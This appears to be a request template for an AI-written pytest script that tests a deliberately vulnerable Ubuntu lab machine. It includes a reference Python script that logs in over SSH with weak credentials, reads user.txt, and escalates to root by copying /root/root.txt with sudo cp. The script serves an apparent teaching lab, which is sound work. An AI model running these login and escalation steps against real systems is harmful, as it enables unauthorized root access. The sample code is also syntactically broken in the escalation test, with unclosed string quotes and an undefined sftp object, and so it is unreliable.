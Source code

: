 請求事項說明
========
> by carlton0521

# 運用構想：

I've prepared a vulnerable Ubuntu that with weak ssh password and cp-privilege vulnerabilities. I need a python test script.

# 擬請AI提供項目

* please provide a python script using pyTest to test following test cases.

## 說明：
* give detail instruction about how to use this script. especially the command to install libraries.

## 測試個案-管理設定
  * connect the ssh service  with  uid/pwd:boxadmin/boxadmin, the result should show that boxadmin is in sudo group.。

## 測試個案-外部滲透
  * connect the ssh service with  uid/pwd:allen/password, the result should show login attempt success.
  * read ~/user.txt, the result should show file access success.。

## 測試個案-內部提權
  * connect the ssh service with  uid/pwd:allen/password, the result should show login attempt success.
  * use sudo-cp-previlege escallation technology to read /root/root.txt , the result should show file access success. 

# 擬請AI作業流程

## When prepare the data:
- assume this file will be named test.py
- Write comment with traditional Chinese.
- In the file beginning, give detail instructions about how to use this file. Also tell user to use pytest -v for detail info.
- Do the work step by step. Make it easy to understand for students.

## When respond the data to me
- just show the action files only. If you need any thing for reminding, put it in the action file in comment style.

# 提供AI參考格式
```
# 使用說明：
# 1. 將此腳本保存為 test_vulnerabilities.py。
# 2. 安裝 Python，作法為：在您的操作系統上安裝合適版本的 Python。
# 3. 安裝 pytest，作法為：在命令行中執行 pip install pytest。
# 4. 安裝 paramiko，作法為：在命令行中執行 pip install paramiko。
# 5. 在終端機中執行 pytest -v test_vulnerabilities.py 進行測試，以獲得詳細信息。

import pytest
import paramiko

# 指定參數
target_ip = "127.0.0.1"  # 請替換成目標主機IP
target_port = 22  # SSH端口

@pytest.fixture(scope="module")
def ssh_client():
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    return client

# 測試個案1
def test_ssh_login_as_admin(ssh_client):
    """測試個案-管理設定：以boxadmin登入，檢查是否為sudo組成員。"""
    try:
        ssh_client.connect(target_ip, username='boxadmin', password='boxadmin', port=target_port)
        stdin, stdout, stderr = ssh_client.exec_command('groups')
        groups = stdout.read().decode()
        assert 'sudo' in groups, "boxadmin 應該是 sudo 群組的成員"
    finally:
        ssh_client.close()

# 測試個案2
def test_ssh_login_success_and_read_user_file(ssh_client):
    """測試個案-外部滲透：以正確密碼登入allen並讀取user.txt，預期成功。"""
    try:
        ssh_client.connect(target_ip, username='allen', password='password', port=target_port)
        sftp = ssh_client.open_sftp()
        user_file = sftp.file('/home/allen/user.txt', 'r')
        assert user_file.read(), "應該能夠讀取 /home/allen/user.txt"
    finally:
        ssh_client.close()

# 測試個案3
def test_cp_privilege_escalation(ssh_client):
    """測試個案-內部提權：利用cp-privilege漏洞讀取/root/root.txt。"""
    try:
        ssh_client.connect(target_ip, username='allen', password='password', port=target_port)
        ssh_client.exec_command('sudo cp /root/root.txt /tmp/)
        root_file = sftp.file('/tmp/root.txt, 'r')
        assert root_file.read(), "應該能夠讀取 /root/root.txt"
    finally:
        ssh_client.close()
```